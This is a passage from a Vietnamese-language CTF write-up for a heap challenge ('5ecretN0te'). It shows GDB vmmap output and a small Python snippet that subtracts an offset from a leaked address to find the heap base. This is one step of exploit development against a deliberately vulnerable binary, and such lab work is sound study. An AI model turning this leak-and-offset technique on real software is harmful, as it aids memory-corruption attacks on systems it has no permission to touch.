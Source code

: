 Và ta tính offset để tìm địa chỉ base của heap:

![heap-bin-2.png](images/heap-bin-2.png)

![main-arena-addr.png](images/main-arena-addr.png)

```gdb
gef➤  vmmap
...
0x00000000404000 0x00000000405000 0x00000000004000 rw- /home/nguyenhuutri/CTF/KCSC/5ecretN0te/secretnote_patched
0x00000001f87000 0x00000001fa9000 0x00000000000000 rw- [heap]
0x007f186db53000 0x007f186dd13000 0x00000000000000 r-x /home/nguyenhuutri/CTF/KCSC/5ecretN0te/libc6_2.23-0ubuntu11.3_amd64.so
...

gef➤  p/x 0x0000000001f88130 - 0x00000001f87000
$1 = 0x1130
```

Vậy ta thêm đoạn code sau để tính địa chỉ base của heap:

```python
heap = heap_leak - 0x1130
log.info("Heap base: " + hex(heap))
```
